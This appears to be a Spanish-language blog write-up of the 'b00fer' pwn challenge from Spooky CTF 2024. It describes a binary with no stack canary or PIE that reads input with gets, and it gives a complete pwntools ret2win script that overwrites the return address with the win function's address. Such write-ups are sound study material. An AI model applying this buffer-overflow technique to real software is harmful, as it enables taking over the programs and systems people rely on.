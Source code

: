 ```yaml
---
layout: post
title: b00fer Spooky CTF
comments: true
categories: [Pwn, Writeups, SploitFUN]
---
```


Este fin de semana he tenido la oportunidad de participar con mi equipo [Caliphal Hounds](https://ctftime.org/team/225933) en el [Spooky CTF 2024](https://ctftime.org/event/2516/). Como competición, bastante entretenida, aunque el nivel de los retos fue bastante bajo.

Por suerte tuvimos cuatro ejercicios de PWN, aunque como digo muy flojitos. En mi caso únicamente pude estar un par de horas y resolví 2, aunque del otro no creo que llegue a subir writeup siquiera.

![Image]({{ site.baseurl }}/images/posts/2024-10-28-spooky-ctf-2024.png)

# Overview

Se nos da un binario de 64 bits con únicamente el bit NX como protección. Además hace uso de la función `gets` para recibir un input del usuario. Analizando el código, vemos que existe una función `win`, que nos da la flag.

```
    Arch:     amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Un *ret2win* de manual.

# Explotación

Debemos encontrar el offset hasta el *RIP* y llenarlo con la dirección de la función `win`.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

exe = context.binary = ELF(args.EXE or 'B00fer')

def start():
    if args.REMOTE:
        return remote("b00fer.niccgetsspooky.xyz", 9001)
    else:
        return process()

offset = 40
win = p64(0x401227)

io = start()

payload = offset*b"A"
payload += win

log.info(payload)

io.sendlineafter("flag.", payload)

io.interactive()
```

Eso sería todo, hubiera sido más interesante incorporando parámetros a la función, como en el [último writeup que subí](({% post_url 2024-10-17-Pwn-UGR-CTF %})), ó incluso añadir alguna restricción como un Canary. Aún así contento con la mejora general del equipo.